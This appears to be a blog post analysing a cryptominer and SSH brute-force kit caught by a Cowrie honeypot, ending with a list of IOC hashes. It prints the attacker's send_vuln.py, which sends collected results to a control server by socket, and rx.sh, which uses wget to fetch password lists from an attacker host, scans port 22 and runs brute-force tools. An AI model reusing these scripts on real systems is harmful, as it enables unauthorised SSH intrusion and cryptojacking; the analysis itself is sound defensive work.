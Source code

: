 
---
layout: post
title:  "Another-Miner-Caught-By-HoneyPot"
tags: [209.141.32.204, cowrie, miner ]
---
### The log file

<img src="https://i.imgur.com/OlKKF60.png" alt="http://209.141.32.204" width="70%" height="35%">
<br>
The command below was used in the screenshot above to scrape & print information about a session in which the user tires to use my honeypot to mine Moner.

```bash
tail -f cowrie.json | jq -r '. | select(.eventid | contains("cowrie.command.input")) | "CMD: " + .input, "Session: " + .session,  "SRC IP: " + .src_ip + "\r\n"'
```
The image below shows the results of the DirSearch scan of 209.141.32[.]204. The image shows that the IP has a couple of hidden directories and a handful of other files. 
<img src="https://i.imgur.com/TGUCk5q.png" alt="http://209.141.32.204 dirsearch" width="35%" height="35%">

### The hidden .ssh directory
The image below shows the contents of `http://209.141.32[.]204/.ssh`. Right of away, two files grab my attention. The `config.json` and the `krane` file. These grab my attention because those files were created just three days ago.<br><br>
<img src="https://i.imgur.com/SGZIAVk.png" alt="http://209.141.32[.]204/.ssh" width="35%" height="35%">

## Config.json
The `config.json` file also caught my eye because config.json files are often used by miners for mining. 
The following Monero address was being used for the mining. The pool that was being used was "hashvault.pro".

`49ubSTdDp9hPmYE7paRM6PZFLmqvsedZ56MXLUT8mvYnTzjVCKGDbpuW4RVdvZon228uWnkjoJN8S6w5S4LdgeK8UBMMEhJ`

Most miners have a feature built into the miner that allows the user to donate some of their hashes to the developers. This miner might donate all their hashes to the developers 1 minute every hour. The value was set as 1, this is intresting becauase they author of the malware was donating their hash power to the developers.  This might be on purpose or a careless mistake of a inexperienced malware author. 

### The .db directory
<img src="https://i.imgur.com/DI2TCio.png" alt="http://209.141.32[.]204/.db" width="35%" height="35%">
<br>
The image above shows the contents of the .db directory. The directory contains a handful of text files that are used by the malware to brute force machines that have SSH exposed.<br>

<img src="https://i.imgur.com/DFAvqKD.png" alt="http://209.141.32[.]204/.db" width="35%" height="35%"><br>
The image above shows the contents of pass.txt. The pass.txt file contains popular passswords and usernames. 

### K 
The 'k' file can be found at `http://209.141.32[.]204/k`. In order to ungzip the file, we need to use the `cp k k.gz` commmand to add the 
gz extension to the file. This is needed so we can ungzip the file. Next we used `gzip -d k.gz` to ungzip the file. The result ended with a new file named `k.tar`. Once again we have to use the command `cp k k.tar` to change the file's extension to .tar. Lastly we use the command 
`tar -xvf k.tar` to untar the file. The results are a new hidden folder named `.k.tar`. 

```
a:             ASCII text
boner:         ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
k_config.json: JSON data
main:          ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6585c7cd03ec265663087a7edaa517813514e9fa, for GNU/Linux 3.2.0, not stripped
ra:            ASCII text
rx:            ASCII text
send_vuln.py:  Python script, ASCII text executable
ta:            ASCII text
tx:            ASCII text
x:             ASCII text
```
The snippet above shows the contents of the .k.tar directory. 

## The contents of k_config.json
```text
{
    "remote":
    {
        "ip_to_send_vuln": "209.141.32.204",
        "port_to_send_vuln": 10102
    },

    "events":
    {
        "send_vuln_after_seconds": 15

    }
}
```
The snippet above shows the contents of k_config.json. The JSON file looks like a config file that contains the IP and the port that is used by the malware.  By looking at the events key, it looks like this config file is used with by the `send_vuln.py` file. The port that the config file uses is port 10102. The IP that is listed in the config file is the same IP that was used to download all the other files.

### The send_vuln.py file
```python
import socket
import json
import time
import os

data = ""

with open("k_config.json", 'r') as ftr:
    data = json.load(ftr)


remote_data = [data["remote"]["ip_to_send_vuln"], data["remote"]["port_to_send_vuln"]]
trigger_after_econds = data["events"]["send_vuln_after_seconds"]

def read_file(filename):
    ce_am_citit = []
    with open(filename, 'r') as ftr:
        for l in ftr:
            ce_am_citit.append(l.strip())

    return ce_am_citit

def remove_file(filename):
    os.remove(filename)



start_time = 0
while True:
    time.sleep(1)
    try:
        if time.time() - start_time > trigger_after_econds:
            start_time = time.time()
            prinse = read_file("prinse.txt")
            if len(prinse) < 1:
                continue

            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((remote_data[0], remote_data[1]))

            string_to_send = ""

            for p in prinse:
                string_to_send += p + "\n"

            sock.send(bytes(string_to_send, "UTF-8"))
            print("vuln sent")
            remove_file("prinse.txt")

            sock.close()
    except:
        pass
```

The snippet above shows the contents of the `send_vuln.py` file. The file is written in Python. By looking at the script it looks like the Python script reads the `k_config.json` file to gather the port and IP of the control server, the code then uses Python's socket module to connect to server. 

## rx.sh 
The snippet above shows the contents of the rx.sh file. 
```bash
rm -rf /etc/sysctl.conf ; echo "fs.file-max = 2097152" > /etc/sysctl.conf ; sysctl -p ; ulimit -Hn ; ulimit -n 99999 -u 999999
while true; do

        ###      Aici incarcam parolele!!

        File=mic
        rm -rf "$File"
        echo "#Incarc Parolele#"
        wget http://209.141.58.203/.db/$File
        if grep -q oracle "$File";
        then
        cat "$File" > passfile.txt
        fi
        rm -rf "$File"




        #### Aici stergem fisierele anterioare si scanam unele noi!!

        rm -rf bios.txt mfu.txt ipuri scan.lst banner.log
        echo "###Incarc Ipuri###"
        random="$((30 + $RANDOM % 224))"
        ./cosynus 22 -a "$random" -s 10 > /dev/null
        pkill -f cosynus
        pkill -f ./cosynus
        cat bios.txt |uniq > mfu.txt
        rm -rf bios.txt
        sleep 1
        echo "#Am terminat de scanat, dau drumu la banner#"
        ./boner mfu.txt 22 1000 > /dev/null
        pkill -f boner
        pkill -f ./boner
        cat banner.log  |grep SSH-2.0-OpenSSH |awk '{print $1}' |uniq >> scan.lst
        cat scan.lst |uniq > ipuri
        ./main 1000
         echo "$random" >> oK
done
```
The rx.sh script contains a couple of comments like `Aici incarcam parolele!!`. Using Google translate the author was able to figure out that the author of the malware might be a native Romanian speaker. The English translation of `Aici incarcam parolele!!` is 'Here we upload the passwords !!' according to Google Translate. 

Another comment inside the bash file contained the Romanian text, `Aici stergem fisierele anterioare si scanam unele noi!!`. The English translation is `Here we delete the previous files and scan new ones !!`.


### IOC
dfa6d202fc24623a5aadf3684aadcfbce72ee8aa  config.json<br>
f1cb326ee8ab4217cf9191f395e35fe684dd426a  a<br>
bfa1d6ecc6a4f2da893b88f15b96a96320dd27c5  b<br>
d987680671c4c35610d659dd5dc2e0f4d387e0b4  pass.txt<br>
3fbbd4ef15e064bd2f4b8b643aacbafdfc347833  dump.txt<br>
16e358574ef61f841f8b6ddb45188446c7da8c7d  k<br>
ad4649a79b67c1db9a8343e18af3b7c0d323172c  a<br>
a9c7d059a22fed787f48698c5c10b0b5146f616d  boner<br>
9c9a96383883601d9ad8a7d78eb3995a7dfbc350  k_config.json<br>
2ccf0c37b004b1793dd79792dc6ffd83e7438137  main<br>
1f8f3d751b578242e9c2b32391c8a162e154c7b2  ra<br>
e5dcaab24fab63b050a5a80b50f5a9ad17d127f1  rx<br>
638108b2217b21843ba7f1c80a95f756e5e2310d  send_vuln.py<br>
a82a8eda9177b2ef1e8936784d0aa5d79fa2ddce  ta<br>
e85c6b190d672884a4a37039cb35dfc73a84318a  tx<br>
f5f323005f8c71324c53c864d28db4cbed8e78ac  x<br>
